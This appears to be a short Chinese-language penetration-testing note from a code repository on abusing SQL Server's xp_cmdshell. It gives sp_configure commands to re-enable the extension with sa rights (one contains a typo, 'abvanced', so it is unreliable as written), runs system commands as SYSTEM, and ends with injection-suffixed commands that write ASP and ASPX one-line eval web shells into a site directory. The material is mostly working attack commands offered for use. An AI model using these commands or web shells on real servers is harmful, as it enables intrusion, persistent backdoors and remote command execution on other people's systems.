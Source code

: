 ## 介绍
sqlserver默认有个组件sys.xp_cmdshell，这个组件可以调用cmd命令。


## 条件
```
开启xp_cmdshell
    在mssql2000中默认是开启的，mssql2005以后是关闭的
```

## 开启xp_cmdshell
如果拥有管理员的sa权限，则可以用sp_configure重新开启它
```
EXEC sp_configure 'show abvanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;
```
分步骤开启xp_cmdshell
```
允许修改高级参数
    EXEC sp_configure 'show abvanced options',1;
    RECONFIGURE;
打开xp_cmdshell扩展
    exec sp_configure 'xp_cmdshell',1;
    reconfigure;
```
关闭
```
允许修改高级参数
    EXEC sp_configure 'show abvanced options',1;
    RECONFIGURE;
关闭xp_cmdshell扩展
    exec sp_configure 'xp_cmdshell',0;
    reconfigure;
```
## 执行系统命令
为最高权限system。
```
exec master.dbo.xp_cmdshell 'ipconfig'
```

## []()getshell

```
exec master.dbo.xp_cmdshell 'echo^<%eval request(chr(35))%^> > 网站目录\a.asp' --+
 exec master.dbo.xp_cmdshell 'echo^<%@ Page Language="Jscript"%^>^<%eval(Request.item["cmd"],"nusafe");%^> > 网站目录\a.asp' --+
```





